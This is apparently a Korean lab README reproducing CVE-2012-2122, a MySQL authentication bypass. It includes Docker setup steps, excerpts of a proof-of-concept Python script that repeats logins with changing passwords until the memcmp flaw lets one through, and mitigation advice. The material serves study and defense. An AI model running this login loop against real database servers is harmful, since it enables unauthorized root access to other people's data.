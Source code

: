 # CVE-2012-2122

> [배소정 (@baethwjd2)](https://github.com/baethwjd2)

<br/>

### 요약

-   CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발견된 **인증 우회** 취약점
-   특정 버전의 MySQL은 비밀번호의 해시값을 memcmp 함수로 캐스팅하여 인증
-   memcmp 함수는 -128 ~ 127 사이의 값을 반환하므로, 잘못된 비밀번호를 입력하더라도 1/256의 확률로 로그인에 성공
-   따라서 임의의 비밀번호로 로그인을 반복함으로써, 악의적인 공격자가 DB의 root 계정을 쉽게 획득 가능

<br/>

### 환경 구성 및 실행

-   `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행 (취약점이 보고된 MySQL 5.5.22의 컨테이너 이미지 사용)
-   `pip install pymysql` 커맨드로 poc.py 실행을 위한 pymysql 패키지 설치
-   `python3 poc.py` 를 실행해 DB의 **root 계정**을 탈취할 수 있음. 유저 정보를 출력하여 root 계정으로 로그인이 됐는지 확인

<br/>

### poc.py

1/256의 확률로 로그인에 성공할 수 있으므로, 충분한 횟수만큼 로그인을 반복 시행한다.

```
for i in range(1, 10001):
    password = str(i)
    conn = pymysql.connect(user=user, password=password, host=host, port=port, charset='utf8')
```

유저 정보를 확인하여 root 계정 로그인에 성공했음을 확인한다.

```
cursor.execute("SELECT user()")
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

해당 취약점을 통해 공격자는 root를 포함한 특정 사용자 계정에 로그인하여, 인가되지 않은 권한을 획득할 수 있다.

이러한 상황을 방지하기 위해, 가장 먼저 관리자는 DB 서버의 네트워크가 노출되지 않도록 노력해야 한다. 즉, 인가되지 않은 액세스를 차단할 수 있도록 미리 서버를 설정해야 한다. 그리고 주기적으로 서비스 취약점을 모니터링하고 패치해야 한다.

